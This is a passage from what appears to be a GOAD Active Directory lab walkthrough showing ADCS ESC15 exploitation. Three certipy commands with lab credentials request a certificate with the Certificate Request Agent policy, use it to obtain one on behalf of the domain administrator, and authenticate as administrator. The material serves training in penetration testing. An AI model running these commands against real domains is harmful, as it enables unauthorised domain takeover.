 ![part14_esc15.png](/assets/blog/GOAD/part14_esc15.png)

- Exploitation

```bash
# Request certificate with "certificate request agent" application policy
certipy req -u missandei@essos.local -p fr3edom --application-policies "1.3.6.1.4.1.311.20.2.1" -ca ESSOS-CA -template WebServer -dc-ip 192.168.56.12 -target braavos.essos.local

# use this certif to ask a certificate onbehalf of an administrator
certipy req -u missandei@essos.local -on-behalf-of essos\\administrator -template User -ca ESSOS-CA -pfx missandei.pfx -dc-ip 192.168.56.12 -target braavos.essos.local

# Authenticate as administrator
certipy auth -pfx administrator.pfx -dc-ip 192.168.56.12
```

![part14_esc15_exploit.png](/assets/blog/GOAD/part14_esc15_exploit.png)

